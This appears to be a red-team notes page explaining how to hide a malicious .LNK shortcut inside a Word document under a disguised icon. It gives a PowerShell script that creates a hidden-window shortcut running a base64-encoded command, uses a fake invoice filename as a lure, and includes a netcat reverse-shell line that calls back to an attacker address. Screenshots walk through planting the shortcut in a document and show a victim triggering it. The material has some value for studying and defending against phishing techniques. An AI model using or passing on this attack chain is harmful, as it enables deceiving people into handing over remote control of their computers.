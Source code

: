# ⭕ embedded OLE + LNK objects

{% embed url="https://v3ded.github.io/redteam/abusing-lnk-features-for-initial-access-and-persistence" %}

{% embed url="https://www.securify.nl/en/blog/click-me-if-you-can-office-social-engineering-with-embedded-objects" %}

attackers embed .lnk files into the Office documents and camouflage them with Ms Word office icons in order to deceive victims to click and run them

Creating an .LNK file that will trigger the payload once executed:

```
$command = 'Start-Process c:\shell.cmd'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

$obj = New-object -comobject wscript.shell
$link = $obj.createshortcut("c:\experiments\ole+lnk\Invoice-FinTech-0900541.lnk")
$link.windowstyle = "7"
$link.targetpath = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
$link.iconlocation = "C:\Program Files\Windows NT\Accessories\wordpad.exe"
$link.arguments = "-Nop -sta -noni -w hidden -encodedCommand UwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgAGMAOgBcAHMAaABlAGwAbAAuAGMAbQBkAA=="
$link.save()
```

Powershell payload will trigger a rudimentary NC reverse shell:

```
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```

Once the above powershell script is executed, an `.LNK` shortcut is created

![](<../../.gitbook/assets/image (23) (1).png>)

Let's create a Word document that will contain the malicious shortcut that was created in the previous step:

![](<../../.gitbook/assets/image (50).png>)

Let's insert a new object into the document by selecting a `Package`and changing its icon source to a Microsoft Word executable:

![](<../../.gitbook/assets/image (21) (1).png>)

![](<../../.gitbook/assets/image (31) (1) (1).png>)

Point the package to the .lnk file containing the payload:

![](<../../.gitbook/assets/image (29) (1).png>)

Final result:

![](<../../.gitbook/assets/image (12) (1).png>)

Victim executing the embedded document. Gets presented with a popup to confirm execution:

![](<../../.gitbook/assets/image (2).png>)

Once the victim confirms they want to open the file - the reverse shell comes back to the attacker:

![](<../../.gitbook/assets/image (42) (1) (1).png>)
